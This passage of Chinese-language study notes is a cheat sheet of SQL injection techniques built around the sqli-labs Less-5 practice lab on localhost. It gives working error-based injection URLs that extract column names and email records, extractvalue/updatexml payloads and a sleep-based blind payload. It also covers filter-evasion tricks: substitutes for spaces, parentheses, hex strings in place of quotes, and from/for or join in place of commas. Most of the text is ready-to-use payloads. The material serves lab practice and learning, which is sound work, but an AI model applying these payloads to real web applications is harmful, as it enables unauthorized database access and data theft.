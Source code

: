 
表名为emails
`http://localhost/sqli-labs-master/Less-5/?id=0' union select 1,count(*),concat_ws(':',(select column_name from information_schema.columns where table_name='emails' limit 0,1),floor(rand()*2)) as a from information_schema.tables group by a--+`


查值
字段名为id和email_id
`http://localhost/sqli-labs-master/Less-5/?id=0' union select 1,count(*),concat_ws(':',(select email_id from emails where id='1' limit 0,1),floor(rand()*2)) as a from information_schema.tables group by a--+`

### ExtractValue和UpdateXml函数报错注入
`union select extractvalue(1,concat(0x7e,(select user())))`

`union select updatexml(1,concat(0x3a,(select user())),1)`

### SQL注入绕过技巧
#### 1.绕过空格（注释符/* */，%a0）：
　　两个空格代替一个空格，用Tab代替空格，%a0=空格：
`%20` `%09` `%0a` `%0b` `%0c` `%0d` `%a0` `%00` `/**/`  `/*! */`
最基本的绕过方法，用注释替换空格：
/*  注释 */

使用浮点数：
`select * from users where id=8E0union select 1,2,3`
`select * from users where id=8.0 select 1,2,3`

#### 2.括号绕过空格：
　　如果空格被过滤，括号没有被过滤，可以用括号绕过。
　　**在MySQL中，括号是用来包围子查询的**。因此，**任何可以计算出结果的语句，都可以用括号包围起来**。**而括号的两端，可以没有多余的空格**。
例如：
`select(user())from dual where(1=1)and(2=2)`
　　这种过滤方法常常用于time based盲注,例如：
`?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23`
（from for属于逗号绕过下面会有）
　　上面的方法既没有逗号也没有空格。猜解database()第一个字符ascii码是否为109，若是则加载延时。

#### 3.引号绕过（使用十六进制）：
　　会使用到引号的地方一般是在最后的where子句中。如下面的一条sql语句，这条语句就是一个简单的用来查选得到users表中所有字段的一条语句：
`select column_name  from information_schema.tables where table_name="users"`
　　这个时候如果引号被过滤了，那么上面的where子句就无法使用了。那么遇到这样的问题就要使用十六进制来处理这个问题了。
　　users的十六进制的字符串是7573657273。那么最后的sql语句就变为了：
`select column_name  from information_schema.tables where table_name=0x7573657273`

#### 4.逗号绕过（使用from或者offset）：
　　在使用盲注的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号。对于substr()和mid()这两个方法可以使用from to的方式来解决：
`select substr(database() from 1 for 1);`
`select mid(database() from 1 for 1);`

- 使用join：
`union select 1,2`    #等价于
`union select * from (select 1)a join (select 2)b`
